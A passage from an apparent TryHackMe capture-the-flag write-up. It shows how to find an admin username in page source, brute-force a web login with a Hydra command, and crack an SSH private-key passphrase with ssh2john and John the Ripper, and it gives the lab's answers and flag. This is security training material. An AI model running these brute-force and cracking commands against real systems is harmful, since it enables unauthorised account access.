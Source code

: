 **Answer** 
###### /admin

---
### Taks 3 - Getting a shell



**Question**
#### What is the user:password of the admin panel?

- First: Navigate to the panel. Test few common patterns. Check the source page.
```
 </div>

    <!-- Hey john, if you do not remember, the username is admin -->
</body>
</html>

```

Impotant finding: username is **admin**
- Second: From [IP]/admin, Capture request with Burpsuite
- Third: You can use both BurpSuite or Hydra to find the password
```
sudo hydra -l admin -P [path]/rockyou.txt 10.10.236.19 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
```
**Answer**
###### xavier

**Question**
####  Web flag

Use the password found  with the username admin to log in.

**Answer**
###### THM{brut3_f0rce_is_e4sy}

**Question**
#### Crack the RSA key you found. What is John's RSA Private Key passphrase?

Now we click on the link **RSA Private key**

On our local machine, we create a file and copy-paste the RSA Private key.

The next step is to crack the key. For this task, we use **john**

```
/usr/share/john/ssh2john.py rsa_private_key > hash 
```

The final step is to use john to brute force the hash

```
john --wordlist=/usr/share/wordlists/rockyou.txt /media/sf_LOLO_Share/TryHackMe/hash                                 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (rsa_private_key)
1g 0:00:00:07 DONE (2021-12-09 19:39) 0.1287g/s 1845Kp/s 1845Kc/s 1845KC/s *7¡Vamos!
Session completed

```